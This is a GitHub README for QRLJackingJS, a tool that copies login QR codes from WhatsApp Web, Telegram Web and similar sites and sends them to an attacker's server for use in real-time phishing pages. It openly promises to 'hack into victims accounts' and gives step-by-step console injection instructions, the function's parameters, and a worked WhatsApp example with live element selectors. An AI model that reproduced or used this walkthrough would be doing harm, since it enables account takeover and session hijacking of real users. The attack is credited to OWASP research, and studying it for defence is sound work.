 # QRLJacking Made Easy: QRLJackingJS

Using a web browser only, this tool will copy the login QR code from your browser and send it to your own server so you can display it in a phishing page (~ real time). The QR code login method is supported by many apps including WhatsApp and Telegram, this tool will allow you to hack into victims accounts in no time.

# Documentation (Usage)

#### Step 1.

Open Firefox or Chrome (desktop verison) and go to the target website where you can find the needed QR code.

#### Step 2.

In the top address bar you can see permissions button on the left / right side. You must allow pop-ups for the target website. Also, you can allow pop-ups from the website permissions / settings list.

#### Step 3.

A. add the JQuery library code to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
Copy the code from: jquery.min.js
```

B. add QRLJackingJS code (included) to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
Copy the code from: qrljackingjs.min.js
```

#### Step 4.

Open inspect element tool in your browser then inpect the QR code or its container. Also, if there's a reload button like the one in WhatsApp Web, you can select it too to make sure that the tool will reload it automatically.

#### Step 5.

Now you are ready to start the attack. Call **QRLJackingJS()** function after adding your prefered settings.

```javascript
QRLJackingJs(
bas64ImageServerPOSTParam, // the parameter you have on your server to receive the base64 encoded image 
elementToScreenshotSelector, // the element that has the QR image in it eg. #qrCodeDiv 
attackWaitingTimeBeforeSendingEachScreenshotInSeconds, // waiting time between each screenshot sending. Recommended: 4
reloadButtonSelector, // optional: used to auto click the QR code reload element if any 
reloadButtonWaitingTimeBeforeSendingInSeconds // optional: waiting time after clicking the reload button and before sending the screenshot 
);
```

WhatsApp Web real example:

```javascript
QRLJackingJs(
'base64_image', // the parameter you have on your server to receive the base64 encoded image
'._2UwZ_:first', // the element that has the QR image in it
4, // waiting time between each screenshot sending
'._2znac:first', // used to auto click the QR code reload element if any
2 // waiting time after clicking the reload button and before sending the screenshot
);
```

### Explanation

The result is that the tool will send the QR code screenshot (._2UwZ_:first) to your server URL (the tool will ask you to enter it) each 4 seconds, the POST request parameter will be (base64_image) and the tool will auto-click the reload button (._2znac:first) then wait (2 seconds) before sending the new QR code again.

### Testing On WhatsApp Web and Telegram Web (PoC)

https://www.youtube.com/watch?v=MxbnwWJoMN0

### Official Project Documentation & Guide

Visit the project official page for step-by-step, screeshots and video guides:

https://uplody.com/lab/qrljackingjs/

### Copyrights

- QRLJackingJS Author: Mohammad F. Atwi | https://www.linkedin.com/in/mohd-atwi/
- QRLJacking Attack Author: Mohamed Abdelbasset Elnouby (@SymbianSyMoh) | https://github.com/SymbianSyMoh
- OWASP QRLJacking Attack: https://owasp.org/www-community/attacks/Qrljacking

